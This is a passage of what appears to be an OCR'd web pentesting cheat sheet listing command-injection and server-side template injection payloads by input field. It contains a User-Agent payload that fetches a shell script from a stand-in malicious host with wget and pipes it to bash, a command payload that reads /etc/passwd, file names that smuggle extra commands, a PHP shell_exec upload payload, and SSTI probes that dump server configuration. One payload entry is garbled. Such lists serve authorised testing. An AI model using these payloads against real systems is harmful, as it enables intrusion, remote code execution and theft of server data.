       PayLoad: ```User-Agent: ; wget http://malicious-site.com/shell.sh | bash;```

    2. API or command-executing functions [Shell commands in JSON:]

      PayLoad: ```{"command": "ping 127.0.0.1; cat /etc/passwd"}```      

 * File upload fields:
    PayLoad: ```; ls -la;```
                
                @Upload Files with Suspicious Names@

                    Test file names like:
                    test.jpg; whoami
                    test.jpg && uname -a
                    test.jpg || ls -la

                #Analyze the Server’s Response#

                    Look for:
                    Errors revealing command execution results.
                    Changes in server behavior (e.g., files created or deleted).   

                !Upload Malicious File Content!

                    Use payloads in scripts (e.g., .sh, .php, .py) if the server executes uploaded files.
                    Example payload:
                    php
                    Copy code
                    {<?php echo shell_exec("ls -la"); ?> }   

# 4. Server-Side Template Injection (SSTI)

 * Template-related fields: (Invoice numbers, receipt templates, or email templates.)

    PayLoad: ```{{7*7}}  # For Jinja2```

 * URL parameters:

    PayLoad: ```http://example.com/render?template={{7*7}}```

 * Form inputs: (Feedback forms)

    PayLoad: ```Feedback forms:```

 * Headers: (HTTP headers passed to server-side templates)

    PayLoad: ```User-Agent: {{7*7}}```       

 * File uploads: (If file content is rendered in templates)

    PayLoad: ```{{config.items()}}```

            1: Steps to Exploit
                Step 1: Identify the Template Engine
                Determine which template engine the server uses (if possible) by looking for clues in:

                Error messages.
                Source code (if accessible).
                Known frameworks (e.g., Flask with Jinja2, Django templates, etc.).
